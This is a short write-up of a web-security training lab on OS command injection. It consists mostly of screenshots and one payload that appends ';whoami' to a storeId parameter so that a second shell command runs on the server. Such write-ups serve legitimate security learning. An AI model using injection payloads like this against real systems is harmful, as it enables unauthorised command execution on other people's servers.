# Lab: OS command injection, simple case

URL: https://0abd00b004492ce8812c615400c000f3.web-security-academy.net/

![](./Images/img1.png)

![](./Images/img2.png)

## Exploitation:

![](./Images/img3.png)

Payload:

```
productId=1&storeId=2;whoami
```

![](./Images/img4.png)

![](./Images/img5.png)


